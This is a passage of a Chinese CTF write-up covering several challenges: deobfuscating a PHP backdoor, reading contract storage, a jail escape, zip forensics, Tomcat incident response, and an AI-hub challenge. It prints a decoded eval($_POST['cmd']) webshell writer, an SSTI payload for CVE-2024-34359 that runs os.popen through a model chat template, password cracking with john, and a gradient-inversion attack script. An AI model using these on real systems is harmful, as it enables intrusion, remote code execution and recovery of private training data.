            var enc2 = base64Chars.indexOf(encodedStr.charAt(i++));
            var enc3 = base64Chars.indexOf(encodedStr.charAt(i++));
            var enc4 = base64Chars.indexOf(encodedStr.charAt(i++));
            var chr1 = (enc1 << 2) | (enc2 >> 4);
            var chr2 = ((enc2 & 15) << 4) | (enc3 >> 2);
            var chr3 = ((enc3 & 3) << 6) | enc4;
            output += String.fromCharCode(chr1);
            if (enc3 !== 64) output += String.fromCharCode(chr2);
            if (enc4 !== 64) output += String.fromCharCode(chr3);
        }
        try { 
            return decodeURIComponent(escape(output)); 
        } catch (e) { 
            return output; 
        }
    }

    // 步骤1: 提取并解码变量名
    console.log("
--- 步骤1: 解码变量名 ---");
    var encodedVar = '\x61\x6e\x4e\x66\x64\x6d\x56\x79\x65\x56\x39\x6e\x62\x32\x39\x6b';
    console.log("编码的变量名:", encodedVar);
    
    var decodedVarName = _b64decode(encodedVar);
    console.log("解码后的变量名:", decodedVarName);

    // 步骤2: 在window对象中查找该变量
    console.log("
--- 步骤2: 查找变量值 ---");
    console.log("检查 window." + decodedVarName + " 是否存在...");
    
    if (window[decodedVarName] !== undefined) {
        console.log("✅ 变量存在!");
        console.log("🎯 Flag found:", window[decodedVarName]);
    } else {
        console.log("❌ 变量不存在或值为 undefined");
        
        // 步骤3: 进一步搜索可能的存储位置
        console.log("
--- 步骤3: 扩展搜索 ---");
        console.log("检查全局变量...");
        
        // 搜索所有全局变量
        var found = false;
        for (var key in window) {
            if (key === decodedVarName) {
                console.log("✅ 找到全局变量:", key, "=", window[key]);
                found = true;
                break;
            }
        }
        
        if (!found) {
            console.log("❌ 在全局变量中未找到", decodedVarName);
            console.log("💡 提示: 可能需要在其他地方定义该变量，或者需要特定条件触发");
        }
    }

    console.log("
=== 解题完成 ===");
})();
```



得到flag1：`js_very_good`

dirsearch扫描网站目录可用得到源码www.zip



里面有dahsboard.php，打开有一段php代码



这段内容是经过gzinflate+base64编码的PHP代码，写个脚本还原一下：

```
# -*- coding: utf-8 -*-


import base64

# ---------- 把这里替换为 $O0O000 的完整字符串 ----------
O_string = "OpZoagryXNJCHQzfnAWdkqEMjmvReuTblwiBVIKDxsPctFYSGULhaGrofqXeciOlwPLAdzYFjnISDTUkmHBgVKWyNhsbRJvEZCpxQuMtvb9KfwzqbPGGr25UETNAFciVEV9tpT9eFlt0EdNVsBJildiVFC90fY1Vc2RGgYV0sbzGaK0sOQrGgQuqvxzdMW9WpYiXrQ9UEW5KfwzdaK0sOQttp2JqvxzdxxyopYiXhwVUFxIdaK0sMeonhlkDg2kVhb0qhDK/EQtKhQVTsQ1jixtEOC9wkNkgO2rJpYEeO10GvB0dabFDSDj4pBu2rByDpYILiBu4iLOtpDP3rQhRSYuKiTSdscZzrcrtgltEOC9PB1iuYeFDgYPdcxj7AB8+hDJqsWoUbPG3fQVJrxzoSxV7bPoOfYpqslCTfYRVc2N4fci0EeqjrTVJrxjGhwJilqjOrTVJrN9KFckAp29HFQNHFwSoOQrGgQuJOQttp2JHOQiUrQuGaK0slc0ilqV1E2RVrczoiBzKSlj7bPoOh3NHgQVHfetAc0rOBINAcej7bPG9bPo/vq=="
# ---------- end paste --------------------------------------------------

# Known split length from earlier analysis:
chunk_len = 52  # $OO0000

# Safety checks
if len(O_string) < chunk_len * 2:
    print("ERROR: 输入字符串长度不足以分出三段（需要至少 104 字符）")
    raise SystemExit(1)

# PHP substr semantics: substr(s, start, len) and substr(s, start) for rest
c = O_string[0:chunk_len]  # 第1段，对应 PHP 的 substr(O,0,52)
b = O_string[chunk_len:chunk_len * 2]  # 第2段，对应 substr(O,52,52)
a = O_string[chunk_len * 2:]  # 第3段，对应 substr(O,104)

print("[*] lengths:", len(O_string), "-> a:", len(a), "b:", len(b), "c:", len(c))
# Show prefixes (安全)
print("a prefix:", a[:80])
print("b prefix:", b[:80])
print("c prefix:", c[:80])


# Implement PHP strtr(str, from, to) when from and to are same-length strings:
def php_strtr_by_from_to(s, frm, to):
    if len(frm) != len(to):
        raise ValueError("For this script, 'from' and 'to' must have equal length")
    trans = str.maketrans(frm, to)
    return s.translate(trans)


mapped = php_strtr_by_from_to(a, b, c)
print("[*] After strtr, mapped length:", len(mapped))
print("mapped prefix:", mapped[:160])

# Now try base64 decode mapped (strip whitespace/newlines if any)
mapped_compact = ''.join(mapped.split())
try:
    decoded = base64.b64decode(mapped_compact, validate=True)
except Exception:
    try:
        decoded = base64.b64decode(mapped_compact)
    except Exception as e:
        print("[-] base64 decode failed:", e)
        decoded = None

if decoded is None:
    print("[-] 解码失败，mapped data may not be valid base64")
else:
    # Try to decode as UTF-8 text for display
    try:
        text = decoded.decode('utf-8')
        print("[+] base64 解码后是 UTF-8 文本，前 800 字符预览：
")
        print(text[:800])
    except Exception:
        print("[+] base64 解码后是二进制（非 UTF-8），将写入 final_decoded.bin")
        with open("final_decoded.bin", "wb") as f:
            f.write(decoded)
        raise SystemExit(0)
    # Save to file for inspection (do not execute)
    outname = "final_decoded.txt"
    with open(outname, "w", encoding="utf-8") as f:
        f.write(text)
    print("
[+] 已把解码结果保存到：", outname)

```

结果如下：

```
$O00OO0=urldecode("%6E1%7A%62%2F%6D%615%5C%76%740%6928%2D%70%78%75%71%79%2A6%6C%72%6B%64%679%5F%65%68%63%73%77%6F4%2B%6637%6A");$O00O0O=$O00OO0{3}.$O00OO0{6}.$O00OO0{33}.$O00OO0{30};$O0OO00=$O00OO0{33}.$O00OO0{10}.$O00OO0{24}.$O00OO0{10}.$O00OO0{24};$OO0O00=$O0OO00{0}.$O00OO0{18}.$O00OO0{3}.$O0OO00{0}.$O0OO00{1}.$O00OO0{24};$OO0000=$O00OO0{7}.$O00OO0{13};$O00O0O.=$O00OO0{22}.$O00OO0{36}.$O00OO0{29}.$O00OO0{26}.$O00OO0{30}.$O00OO0{32}.$O00OO0{35}.$O00OO0{26}.$O00OO0{30};eval($O00O0O("JE8wTzAwMD0iT3Bab2FncnlYTkpDSFF6Zm5BV2RrcUVNam12UmV1VGJsd2lCVklLRHhzUGN0RllTR1VMaGFHcm9mcVhlY2lPbHdQTEFkellGam5JU0RUVWttSEJnVktXeU5oc2JSSnZFWkNweFF1TXR2YjlLZnd6cWJQR0dyMjVVRVROQUZjaVZFVjl0cFQ5ZUZsdDBFZE5Wc0JKaWxkaVZGQzkwZlkxVmMyUkdnWVYwc2J6R2FLMHNPUXJHZ1F1cXZ4emRNVzlXcFlpWHJROVVFVzVLZnd6ZGFLMHNPUXR0cDJKcXZ4emR4eHlvcFlpWGh3VlVGeElkYUswc01lb25obGtEZzJrVmhiMHFoREsvRVF0S2hRVlRzUTFqaXh0RU9DOXdrTmtnTzJySnBZRWVPMTBHdkIwZGFiRkRTRGo0cEJ1MnJCeURwWUlMaUJ1NGlMT3RwRFAzclFoUlNZdUtpVFNkc2NaenJjcnRnbHRFT0M5UEIxaXVZZUZEZ1lQZGN4ajdBQjgraERKcXNXb1ViUEczZlFWSnJ4em9TeFY3YlBvT2ZZcHFzbENUZllSVmMyTjRmY2kwRWVxanJUVkpyeGpHaHdKaWxxak9yVFZKck45S0Zja0FwMjlIRlFOSEZ3U29PUXJHZ1F1Sk9RdHRwMkpIT1FpVXJRdUdhSzBzbGMwaWxxVjFFMlJWcmN6b2lCektTbGo3YlBvT2gzTkhnUVZIZmV0QWMwck9CSU5BY2VqN2JQRzliUG8vdnE9PSI7ZXZhbCgnPz4nLiRPMDBPME8oJE8wT08wMCgkT08wTzAwKCRPME8wMDAsJE9PMDAwMCoyKSwkT08wTzAwKCRPME8wMDAsJE9PMDAwMCwkT08wMDAwKSwkT08wTzAwKCRPME8wMDAsMCwkT08wMDAwKSkpKTs=")); ?>
```

再url解码一下，得到的是混淆的php代码

```
$O00OO0 = urldecode("n1zb/ma5\vt0i28-pxuqy*6lrkdg9_ehcswo4+f37j");
// 这是一个字符映射表

$O00O0O = $O00OO0{3}.$O00OO0{6}.$O00OO0{33}.$O00OO0{30};
// 拼接字符：'b' + 'm' + 'w' + '4' = 'bmw4'

$O0OO00 = $O00OO0{33}.$O00OO0{10}.$O00OO0{24}.$O00OO0{10}.$O00OO0{24};
// 'w' + '0' + 'g' + '0' + 'g' = 'w0g0g'

$OO0O00 = $O0OO00{0}.$O00OO0{18}.$O00OO0{3}.$O0OO00{0}.$O0OO00{1}.$O00OO0{24};
// 'w' + 'c' + 'b' + 'w' + '0' + 'g' = 'wcbw0g'

$OO0000 = $O00OO0{7}.$O00OO0{13};
// '5' + 'i' = '5i'

$O00O0O .= $O00OO0{22}.$O00OO0{36}.$O00OO0{29}.$O00OO0{26}.$O00OO0{30}.$O00OO0{32}.$O00OO0{35}.$O00OO0{26}.$O00OO0{30};
// 追加：'6' + 'f' + 'o' + 'd' + '4' + 'e' + 'c' + 'd' + '4' = '6fod4ecd4'
// 最终 $O00O0O = 'bmw46fod4ecd4'
```

后面的eval部分相当于eval(base64\_decode(......))，将里面那段base64解码得到：

```
$O0O000="OpZoagryXNJCHQzfnAWdkqEMjmvReuTblwiBVIKDxsPctFYSGULhaGrofqXeciOlwPLAdzYFjnISDTUkmHBgVKWyNhsbRJvEZCpxQuMtvb9KfwzqbPGGr25UETNAFciVEV9tpT9eFlt0EdNVsBJildiVFC90fY1Vc2RGgYV0sbzGaK0sOQrGgQuqvxzdMW9WpYiXrQ9UEW5KfwzdaK0sOQttp2JqvxzdxxyopYiXhwVUFxIdaK0sMeonhlkDg2kVhb0qhDK/EQtKhQVTsQ1jixtEOC9wkNkgO2rJpYEeO10GvB0dabFDSDj4pBu2rByDpYILiBu4iLOtpDP3rQhRSYuKiTSdscZzrcrtgltEOC9PB1iuYeFDgYPdcxj7AB8+hDJqsWoUbPG3fQVJrxzoSxV7bPoOfYpqslCTfYRVc2N4fci0EeqjrTVJrxjGhwJilqjOrTVJrN9KFckAp29HFQNHFwSoOQrGgQuJOQttp2JHOQiUrQuGaK0slc0ilqV1E2RVrczoiBzKSlj7bPoOh3NHgQVHfetAc0rOBINAcej7bPG9bPo/vq==";eval('?>'.$O00O0O($O0OO00($OO0O00($O0O000,$OO0000*2),$OO0O00($O0O000,$OO0000,$OO0000),$OO0O00($O0O000,0,$OO0000))));
```

后面仍然是混淆，直接让ai搓个脚本：

```
# -*- coding: utf-8 -*-
import base64

# 输入字符串
O_string = "OpZoagryXNJCHQzfnAWdkqEMjmvReuTblwiBVIKDxsPctFYSGULhaGrofqXeciOlwPLAdzYFjnISDTUkmHBgVKWyNhsbRJvEZCpxQuMtvb9KfwzqbPGGr25UETNAFciVEV9tpT9eFlt0EdNVsBJildiVFC90fY1Vc2RGgYV0sbzGaK0sOQrGgQuqvxzdMW9WpYiXrQ9UEW5KfwzdaK0sOQttp2JqvxzdxxyopYiXhwVUFxIdaK0sMeonhlkDg2kVhb0qhDK/EQtKhQVTsQ1jixtEOC9wkNkgO2rJpYEeO10GvB0dabFDSDj4pBu2rByDpYILiBu4iLOtpDP3rQhRSYuKiTSdscZzrcrtgltEOC9PB1iuYeFDgYPdcxj7AB8+hDJqsWoUbPG3fQVJrxzoSxV7bPoOfYpqslCTfYRVc2N4fci0EeqjrTVJrxjGhwJilqjOrTVJrN9KFckAp29HFQNHFwSoOQrGgQuJOQttp2JHOQiUrQuGaK0slc0ilqV1E2RVrczoiBzKSlj7bPoOh3NHgQVHfetAc0rOBINAcej7bPG9bPo/vq=="

# 已知分段长度
chunk_len = 52

# 安全校验
if len(O_string) < chunk_len * 2:
    print("ERROR: 输入字符串长度不足以分出三段（需要至少 104 字符）")
    exit()

# 分割字符串
c = O_string[0:chunk_len]
b = O_string[chunk_len:chunk_len * 2]
a = O_string[chunk_len * 2:]

# 字符串替换函数
def php_strtr(s, frm, to):
    return s.translate(str.maketrans(frm, to))

# 执行替换
mapped = php_strtr(a, b, c)

# 尝试Base64解码
mapped_compact = ''.join(mapped.split())
try:
    decoded = base64.b64decode(mapped_compact)
    try:
        text = decoded.decode('utf-8')
        print("
[+] 解码成功，内容如下：")
        print(text)
    except UnicodeDecodeError:
        print("
[+] 解码成功，但内容为二进制数据，已保存到 final_decoded.bin")
        with open("final_decoded.bin", "wb") as f:
            f.write(decoded)
except Exception as e:
    print("
[-] 解码失败:", str(e))
```

解码结果：

```
<?php 
ignore_user_abort(true);
set_time_limit(0);
$file = './backdoor.php';
$hack = 'I hack you!';
/** $code = "<?php if(md5(\$_GET['flag2'])=='87c298a56e0caa355872ab47db11e06c'){@eval(\$_POST['cmd']);}?>"; **/
while (1){
	if (!file_exists($file)) {
		file_put_contents($file,$hack.$code);
	}
	usleep(5000);
	#unlink(__FILE__);
}
?>
```

`87c298a56e0caa355872ab47db11e06c`的md5解密结果flag2为：`ns2025`

```
flag{js_very_good_ns2025}
```

### 区块链-智能合约

> 题目内容：
>
> 如果你想和工坊签订合约，就来这个地址找它吧！
>
> 合约地址：0x88DC8f1de5Ff74d644C1a1defDc54869E5Ce3c08 合约在 sepolia 测试链上进行

区块链上所有数据公开透明，`private`修饰符仅限制合约内

问，不影响链下直接读取

使用RPC的`eth_getStorageAt`方法直接查询指定存储槽内容

通过计算状态变量在存储槽中的位置，确定flag数据的起始槽

由于flag长度超过单个存储槽容量(32字节)，需要连续读取三个存储槽

将读取的原始字节数据拼接后，直接解码为ASCII字符串获得flag

```
import requests

# === 题目给定的参数 ===
CONTRACT = "0x88DC8f1de5Ff74d644C1a1defDc54869E5Ce3c08"  # 题目给出
RPC_URL = "https://ethereum-sepolia-rpc.publicnode.com"  # 题目给出
FLAG_LENGTH = 79  # 从题目信息得知

# === 需要自己计算推导的参数 ===
# 计算方式：keccak256(slot0)，其中slot0是32字节的零
BASE_SLOT = "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e563"


def solve():
    # 三个连续的存储槽（需要自己推导）
    slots = [
        BASE_SLOT,
        "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e564",
        "0x290decd9548b62a8d60345a988386fc84ba6bc95484008f6362f93160ef3e565"
    ]

    hex_data = ""
    for slot in slots:
        response = requests.post(RPC_URL, json={
            "jsonrpc": "2.0", "id": 1, "method": "eth_getStorageAt",
            "params": [CONTRACT, slot, "latest"]
        })
        data = response.json()['result'][2:]  # 移除0x前缀
        hex_data += data
        print(f"读取槽 {slot}: {data}")

    # 截取flag长度
    flag_hex = hex_data[:FLAG_LENGTH * 2]
    flag = bytes.fromhex(flag_hex).decode('ascii')

    print(f"
最终flag: {flag}")


if __name__ == "__main__":
    solve()
```

```
flag{E4sy_S0lidity_D3v_F1a9_C0d3_4ud1t}
```

### jail-Neuro jail

> 题目内容：
>
> Neuro 打 osu 的时候被关进 jail 了！一定是 Evil 干的，快点帮帮 Neuro 逃出 jail！

非预期解：把./flag当作头文件包含进来

```
#include "./flag"
```

base64加密为：

```
I2luY2x1ZGUgIi4vZmxhZyI=
```



```
flag{47f997c1-2706-44a6-9ab2-eed79bd58325}
```

# Week5

### Time\_hacker

在题目压缩包最下面有一段base64编码

解码得到：`I heard you can hack the time in different dimensions?`

在flag.zip末尾有一段atbash编码



解码得到：`The password is ten digits`

写个脚本提取一下图片的时间戳，因为时间戳刚好是十位的，尝试用时间戳爆破。

提取时间戳脚本：

```
import zipfile
import datetime

def simple_extract(zip_filename):
    with zipfile.ZipFile(zip_filename, 'r') as zf:
        for info in zf.infolist():
            if hasattr(info, 'date_time'):
                year, month, day, hour, minute, second = info.date_time
                dt = datetime.datetime(year, month, day, hour, minute, second)
                unix_ts = int(dt.timestamp())
                print(f"{info.filename}: {dt} -> {unix_ts}")

simple_extract("flag.zip")
```

但是没有爆出来，接着尝试掩码爆破后三位，成功得到flag.zip的解压密码：`2145768093`



将解压缩包的时间戳作为锚点，png图片与这个锚点做差，取后三位转ascii码。

```
import os
import time

# 文件夹路径
folder = r"flag"
# 参考时间戳（例如一个固定时间点）
base_ts = 2145768093

# 获取所有png文件并按数字排序
files = [f for f in os.listdir(folder) if f.lower().endswith(".png")]
files.sort(key=lambda x: int(x.split('.')[0]))

print("按文件名数字顺序 (1-36) 转换结果:")
print("-" * 40)

for filename in files:
    filepath = os.path.join(folder, filename)
    if os.path.isfile(filepath):
        # 获取修改时间（秒）
        mtime = int(os.path.getmtime(filepath))
        diff = mtime - base_ts

        # 仅在可打印范围内转换
        if 32 <= diff <= 126:
            ch = chr(diff)
        else:
            ch = "."

        print(f"{filename}: 差值={diff}, 字符='{ch}'")

print("
最终flag字符串: ", end='')
for filename in files:
    filepath = os.path.join(folder, filename)
    if os.path.isfile(filepath):
        mtime = int(os.path.getmtime(filepath))
        diff = mtime - base_ts
        if 32 <= diff <= 126:
            ch = chr(diff)
        else:
            ch = "."
        print(ch, end='')
print()
```

但是直接按图片名字顺序拼完是混乱的字符串：

```
aET_t_Y__HMrl4HR!e{}0ekI!acuegLr_f@e
```

将图片拖到010里查看，可以看到还有一个时间



写个脚本看一下图片按照这个顺序排列的结果：



看了一下前几位刚好是`flag{`

应该就是将结果按照这种方式排序了，最终脚本：

```
import os
import time
from datetime import datetime


def extract_time_from_png(filepath):
    with open(filepath, 'rb') as f:
        data = f.read()

    exif_start = data.find(b'eXIf')
    if exif_start == -1:
        return None

    exif_data = data[exif_start:exif_start + 200]

    for i in range(len(exif_data) - 19):
        chunk = exif_data[i:i + 19]
        try:
            text = chunk.decode('ascii')
            if (text[4] == '-' and text[7] == '-' and text[10] == ' ' and
                    text[13] == ':' and text[16] == ':'):
                if text[:4].isdigit() and text[5:7].isdigit() and text[8:10].isdigit():
                    return text
        except:
            continue

    return None


folder = r"flag"
base_ts = 2145768093

# 获取所有png文件并提取时间
files = []
for filename in os.listdir(folder):
    if filename.lower().endswith('.png'):
        filepath = os.path.join(folder, filename)
        datetime_str = extract_time_from_png(filepath)
        if datetime_str:
            dt = datetime.strptime(datetime_str, '%Y-%m-%d %H:%M:%S')
            files.append((dt, filename))

# 按EXIF时间排序
files.sort(key=lambda x: x[0])

print("按EXIF时间顺序拼接的flag: ", end='')
for dt, filename in files:
    filepath = os.path.join(folder, filename)
    mtime = int(os.path.getmtime(filepath))
    diff = mtime - base_ts

    if 32 <= diff <= 126:
        ch = chr(diff)
    else:
        ch = "."
    print(ch, end='')
print()
```

```
flag{Y0u_4re_tHe_ReaL_TIME_H@cker!!}
```

### 应急响应-把你mikumiku掉-1

先看一下网站的服务和历史命令，可以看到用的是tomcat



看一下tomcat的版本



可以看到是9.0.98版本的

并且用户是root权限



应该是上半年利用PUT进行文件上传那个漏洞，搜索一下即可



```
flag{CVE-2025-24813}
```

### 应急响应-把你mikumiku掉-2

在tomcat的根目录下发现了两个可疑的jsp文件



可以看到这两个jsp后门的密码分别是：passwd和miiikuuu



其中mikuu.jsp创建的时间晚点，但是题目3也是和mikuu有关，猜测是这个



接着看一下mikuu密码哈希,先保存在hash.txt里



直接放在线网站解不了，让ai生成一些关于miku之类的字典，结果miiiku 为正确答案

```
echo -e " mikuuu
mikuus
mikuuj
mikuup
abcdef
password
miiiku
newstar
nsnsns
mikumi
mikumu
mikuka
mikuke
mikuki" | john --stdin --format=crypt hash.txt
```



```
flag{miiikuuu_miiiku}
```

### 应急响应-把你mikumiku掉-3

在mikuu目录下有一个加密文件flag.miku和加密程序mikumikud



查看加密文件的二进制结构

然后从加密程序中提取硬编码的AES密钥和IV



AES密钥: 123456789abcdef01122334455667788

IV: 19198101145140effedcba9876543210

然后解密即可



```
flag{Miku_miku_oo_ee_oo}
```

### 区块链-INTbug

好像直接非预期了

先查看这个合约地址的交易

```
https://sepolia.etherscan.io/address/0xB6748b3B308b382E28438cc72872e2D70369D90b
```

找到最下面这个交易记录



在里面input data这里，将hex转utf8，直接就能看到flag了



```
flag{Good_NewStar2025_Byeeeee!}
```

### AI HACKER

> 题目内容：
>
> SafeLLM Hub一点都不Safe :(（访问/flag获取题目任务）
>
> <https://ai-hacker.chal.openctf.net/>
>
> 本题无需扫描，另可尝试查看网页请求

第一部分考点是CVE-2024-34359

参考文章：<https://github.com/advisories/GHSA-56xg-wfcc-g829>

里面有gguf模型下载链接，和题目给的是一样的

按照文章说的，改一下聊天模板`tokenizer.chat_template`，利用SSTI写payload，向题目给的目录下写个orange文件，然后记得改一下大小，这里是394字节。转成十六进制为`8A 01`

```
{{ x()._module.__builtins__['__import__']('os').popen('touch /tmp/6b1864ef275f/orange') }}{{'<|im_start|>' + message['role'] + '
' + message['content'] + '<|im_end|>' + '
'}}{{ '<|im_start|>assistant
' }}
```

然后上传一下这个模型，使用这个模型，随便聊天输入内容即可





然后访问flag目录即可



得到前半段flag：

```
flag{C00l!_e45y_CVE
```

第二部分是给了一个.pth文件，先分析一下这个.pth文件结构

```
import torch
import numpy as np


def analyze_pth_file(file_path):
    """
    详细分析.pth文件的结构和内容
    """
    print(f"正在分析文件: {file_path}")
    print("=" * 60)

    # 加载文件
    checkpoint = torch.load(file_path, map_location='cpu')

    # 1. 分析文件类型和基本结构
    print("1. 文件基本信息:")
    print(f"   文件类型: {type(checkpoint)}")
    print(f"   包含的键数量: {len(checkpoint) if hasattr(checkpoint, '__len__') else 'N/A'}")

    # 2. 显示所有键
    print("
2. 所有键的名称:")
    if isinstance(checkpoint, dict):
        for i, key in enumerate(checkpoint.keys()):
            print(f"   {i + 1:2d}. '{key}'")
    else:
        print(f"   文件是 {type(checkpoint).__name__} 类型，不是字典")

    # 3. 详细分析每个键的内容
    print("
3. 每个键的详细内容:")
    print("-" * 40)

    if isinstance(checkpoint, dict):
        for key, value in checkpoint.items():
            print(f"
🔍 键: '{key}'")
            print(f"   类型: {type(value).__name__}")

            # 分析张量
            if torch.is_tensor(value):
                print(f"   形状: {value.shape}")
                print(f"   数据类型: {value.dtype}")
                print(f"   取值范围: [{value.min():.4f}, {value.max():.4f}]")
                print(f"   均值: {value.mean():.4f}, 标准差: {value.std():.4f}")
                print(f"   是否需要梯度: {value.requires_grad}")

            # 分析列表
            elif isinstance(value, (list, tuple)):
                print(f"   长度: {len(value)}")
                if len(value) > 0:
                    # 分析列表中的元素类型
                    elem_types = set(type(elem).__name__ for elem in value[:5])  # 只看前5个
                    print(f"   元素类型: {elem_types}")

                    # 如果是张量列表
                    if all(torch.is_tensor(elem) for elem in value[:3]):
                        print("   前3个元素的形状:")
                        for i, elem in enumerate(value[:3]):
                            print(f"     [{i}]: {elem.shape}")

            # 分析字典
            elif isinstance(value, dict):
                print(f"   包含子键: {list(value.keys())[:5]}...")  # 只显示前5个

            # 分析数字或字符串
            elif isinstance(value, (int, float, str, bool)):
                print(f"   值: {value}")

            else:
                print(f"   值类型: {type(value)}")

    return checkpoint


# 使用示例
checkpoint = analyze_pth_file('flag2.pth')
```



有一个client\_info的键看起来有东西并且查看其中有0-15共16个客户端，且还有一个image\_size的键

```
import torch


def analyze_client_info(file_path):
    """
    分析client_info中的客户端信息
    """
    checkpoint = torch.load(file_path, map_location='cpu')

    print("=== 客户端信息分析 ===")
    print(f"总客户端数: {checkpoint['num_clients']}")
    print(f"图像尺寸: {checkpoint['image_size']}")

    client_info = checkpoint['client_info']
    print(f"
各客户端信息:")
    print("-" * 50)

    for i, info in enumerate(client_info):
        print(f"客户端 {i:2d}: {info}")

    return client_info


# 运行分析
client_info = analyze_client_info('flag2.pth')
```



应该是把一张图片分成若干份，然后16个客户端进行训练保存的一个pth预训练模型

尝试梯度反演攻击进行逆推数据

```
import torch
import torch.nn as nn
import torchvision
import os
import time
from typing import List, Tuple
import warnings

warnings.filterwarnings('ignore')


class GradientInversionAttack:
    """改进的梯度反演攻击类"""

    def __init__(self, model: nn.Module, output_dir: str = "reconstructed_images"):
        self.model = model
        self.model.eval()
        self.output_dir = output_dir
        self._setup_directories()

    def _setup_directories(self):
        """创建输出目录"""
        os.makedirs(self.output_dir, exist_ok=True)

    @staticmethod
    def total_variation_loss(img: torch.Tensor) -> torch.Tensor:
        """计算总变差损失以增强平滑性"""
        pixel_diff1 = img[:, :, 1:, :] - img[:, :, :-1, :]
        pixel_diff2 = img[:, :, :, 1:] - img[:, :, :, :-1]
        return torch.abs(pixel_diff1).sum() + torch.abs(pixel_diff2).sum()

    def _initialize_dummy_data(self, batch_size: int = 1,
                               image_size: Tuple[int, int, int] = (3, 32, 32)) -> torch.Tensor:
        """初始化虚拟数据"""
        dummy_data = torch.randn(batch_size, *image_size) * 0.1 + 0.5
        return dummy_data.clamp(0, 1).requires_grad_(True)

    def _compute_gradient_matching_loss(self, dummy_data: torch.Tensor,
                                        dummy_label: torch.Tensor,
                                        target_gradients: List[torch.Tensor]) -> Tuple[torch.Tensor, torch.Tensor]:
        """计算梯度匹配损失"""
        criterion = nn.CrossEntropyLoss()

        # 前向传播
        prediction = self.model(dummy_data)
        classification_loss = criterion(prediction, dummy_label)

        # 计算梯度
        dummy_gradients = torch.autograd.grad(
            classification_loss, self.model.parameters(),
            create_graph=True, retain_graph=True
        )

        # 梯度匹配损失
        gradient_loss = 0.0
        for grad_dummy, grad_target in zip(dummy_gradients, target_gradients):
            gradient_loss += ((grad_dummy - grad_target) ** 2).sum()

        return gradient_loss, classification_loss

    def _compute_final_loss(self, dummy_data: torch.Tensor,
                            dummy_label: torch.Tensor,
                            target_gradients: List[torch.Tensor]) -> float:
        """计算最终损失（无梯度跟踪）"""
        criterion = nn.CrossEntropyLoss()

        # 重新启用梯度计算
        dummy_data = dummy_data.clone().requires_grad_(True)

        # 前向传播
        prediction = self.model(dummy_data)
        classification_loss = criterion(prediction, dummy_label)

        # 计算梯度
        dummy_gradients = torch.autograd.grad(
            classification_loss, self.model.parameters(),
            create_graph=False, retain_graph=False
        )

        # 梯度匹配损失
        final_loss = 0.0
        for grad_dummy, grad_target in zip(dummy_gradients, target_gradients):
            final_loss += ((grad_dummy - grad_target) ** 2).sum().item()

        return final_loss

    def _optimize_single_label(self, target_gradients: List[torch.Tensor],
                               label: int,
                               num_iterations: Tuple[int, int] = (300, 30)) -> Tuple[torch.Tensor, float]:
        """对单个标签进行优化"""
        # 初始化数据
        dummy_data = self._initialize_dummy_data()
        dummy_label = torch.tensor([label])

        # 第一阶段: Adam优化器快速收敛
        optimizer_adam = torch.optim.Adam([dummy_data], lr=0.1, betas=(0.9, 0.999))

        for iteration in range(num_iterations[0]):
            optimizer_adam.zero_grad()

            gradient_loss, _ = self._compute_gradient_matching_loss(
                dummy_data, dummy_label, target_gradients
            )

            # 添加正则化
            tv_loss = self.total_variation_loss(dummy_data)
            total_loss = gradient_loss + 0.001 * tv_loss

            total_loss.backward()
            optimizer_adam.step()

            # 保持像素值在有效范围内
            with torch.no_grad():
                dummy_data.data = dummy_data.data.clamp(0, 1)

        # 第二阶段: LBFGS精细调优
        optimizer_lbfgs = torch.optim.LBFGS([dummy_data], lr=0.1, max_iter=10)

        def closure():
            optimizer_lbfgs.zero_grad()
            gradient_loss, _ = self._compute_gradient_matching_loss(
                dummy_data, dummy_label, target_gradients
            )
            tv_loss = self.total_variation_loss(dummy_data)
            total_loss = gradient_loss + 0.001 * tv_loss
            total_loss.backward()
            return total_loss

        for iteration in range(num_iterations[1]):
            optimizer_lbfgs.step(closure)
            with torch.no_grad():
                dummy_data.data = dummy_data.data.clamp(0, 1)

        # 计算最终损失（使用无梯度跟踪的方法）
        final_loss = self._compute_final_loss(dummy_data, dummy_label, target_gradients)

        return dummy_data.detach(), final_loss

    def reconstruct_single_client(self, target_gradients: List[torch.Tensor],
                                  client_idx: int,
                                  label_range: range = range(10)) -> dict:
        """重构单个客户端的数据"""
        print(f"[Client {client_idx}] 开始重构...")
        client_start_time = time.time()

        best_result = {'data': None, 'loss': float('inf'), 'label': None}

        # 测试多个标签
        for label in label_range:
            reconstructed_data, loss = self._optimize_single_label(
                target_gradients, label
            )

            if loss < best_result['loss']:
                best_result.update({
                    'data': reconstructed_data,
                    'loss': loss,
                    'label': label
                })

            # 进度报告
            if (label + 1) % 3 == 0:
                print(f"  [Client {client_idx}] 测试标签 0-{label}, 当前最佳损失: {best_result['loss']:.6f}")

        # 保存结果
        self._save_results(best_result['data'], client_idx, best_result['label'], best_result['loss'])

        client_time = time.time() - client_start_time
        print(f"  [Client {client_idx}] 完成! 标签: {best_result['label']}, "
              f"损失: {best_result['loss']:.6f}, 耗时: {client_time:.1f}s")

        return best_result

    def _save_results(self, image_data: torch.Tensor, client_idx: int, label: int, loss: float):
        """保存重构结果"""
        image = image_data.squeeze(0)
        base_name = f"client_{client_idx:02d}_label_{label}_loss_{loss:.6f}"

        # 保存原始重构图像
        original_path = os.path.join(self.output_dir, f"{base_name}_original.png")
        torchvision.utils.save_image(image, original_path)

        # 保存对比度增强版本
        enhanced_image = self._enhance_contrast(image)
        enhanced_path = os.path.join(self.output_dir, f"{base_name}_enhanced.png")
        torchvision.utils.save_image(enhanced_image, enhanced_path)

        # 保存高对比度版本（更容易识别字符）
        high_contrast_image = self._high_contrast(image)
        high_contrast_path = os.path.join(self.output_dir, f"{base_name}_high_contrast.png")
        torchvision.utils.save_image(high_contrast_image, high_contrast_path)

        print(f"  [Client {client_idx}] 已保存:")
        print(f"    - {os.path.basename(original_path)}")
        print(f"    - {os.path.basename(enhanced_path)}")
        print(f"    - {os.path.basename(high_contrast_path)}")

    @staticmethod
    def _enhance_contrast(image: torch.Tensor) -> torch.Tensor:
        """增强图像对比度"""
        enhanced = image.clone()
        for channel_idx in range(3):
            channel = enhanced[channel_idx]
            min_val, max_val = channel.min(), channel.max()
            if max_val - min_val > 1e-8:
                enhanced[channel_idx] = (channel - min_val) / (max_val - min_val)
        return enhanced

    @staticmethod
    def _high_contrast(image: torch.Tensor) -> torch.Tensor:
        """高对比度处理，更容易识别字符"""
        high_contrast = image.clone()
        # 应用更强的对比度拉伸
        for channel_idx in range(3):
            channel = high_contrast[channel_idx]
            # 使用百分位数避免异常值影响
